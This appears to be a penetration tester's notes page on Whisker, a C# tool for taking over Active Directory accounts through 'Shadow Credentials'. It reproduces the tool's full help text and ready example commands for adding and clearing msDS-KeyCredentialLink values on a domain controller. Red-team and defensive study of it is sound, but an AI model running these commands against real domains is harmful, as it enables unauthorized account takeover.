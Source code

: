 # Whisker

[Whisker](https://github.com/eladshamir/Whisker) *is a C# tool for taking over Active Directory user and computer accounts by manipulating their msDS-KeyCredentialLink attribute, effectively adding "Shadow Credentials" to the target account. This tool is based on code from [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) by Michael Grafnetter ([@MGrafnetter](https://twitter.com/MGrafnetter)).* 

Locally: [[Shadow-Credentials]] or cited by [eladshamir](https://github.com/eladshamir) [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

It will conveniently output a full Rubeus command string -  [[Rubeus-Cheatsheet]]

```cs
 .\Whisker.exe --help

Whisker is a C# tool for taking over Active Directory user and computer accounts by manipulating their
msDS-KeyCredentialLink attribute, effectively adding Shadow Credentials to the target account.

  Usage: ./Whisker.exe [list|add|remove|clear] /target:<samAccountName> [/deviceID:<GUID>] [/domain:<FQDN>]
               [/dc:<IP/HOSTNAME>] [/password:<PASWORD>] [/path:<PATH>]

  Modes
    list            List all the values of the the msDS-KeyCredentialLink attribute of a target object
    add             Add a new value to the msDS-KeyCredentialLink attribute of a target object
    remove          Remove a value from the msDS-KeyCredentialLink attribute of a target object
    clear           Clear all the values of the the msDS-KeyCredentialLink attribute of a target object.
                    Warning: Clearing the msDS-KeyCredentialLink attribute of accounts configured for
                    passwordless authentication will cause disruptions.

  Arguments:
    /target:<samAccountName>  Required. Set the target name. Computer objects should end with a '$' sign.

    /deviceID:<GUID>          [remove mode] Required in remove mode. Set the DeviceID of the value to remove from the
                              attribute msDS-KeyCredentialLink of the target object. Must be a valid GUID.

    [/domain:<FQDN>]          Optional. Set the target Fully Qualified Domain Name (FQDN). If not provided, will try to
                              resolve the FQDN of the current user.

    [/dc:<IP/HOSTNAME>]       Optional. Set the target Domain Controller (DC). If not provided, will try to target the
                              Primary Domain Controller (PDC).

    [/password:<PASWORD>]     [add mode] Optional in add mode. Set the password for the stored self-signed certificate.
                              If not provided, a random password will be generated.

    [/path:<PATH>]            [add mode] Optional in add mode. Set the path to store the generated self-signed certificate
                              for authentication. If not provided, the certificate will be printed as a Base64 blob.

==[Examples]=========

  list    => Whisker.exe list /target:computername$ /domain:constoso.local /dc:dc1.contoso.local
  add     => Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1
  remove  => Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /deviceid:2de4643a-2e0b-438f-a99d-5cb058b3254b
  clear   => Whisker.exe clear /target:computername$ /domain:constoso.local /dc:dc1.contoso.local

For this attack to succeed, the environment must have a Domain Controller running at least Windows Server 2016,
and the Domain Controller must have a server authentication certificate to allow for PKINIT Kerberos authentication.

This tool is based on code from DSInternals by Michael Grafnetter (@MGrafnetter).
```

## References

[Github Whisker](https://github.com/eladshamir/Whisker) 
[Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)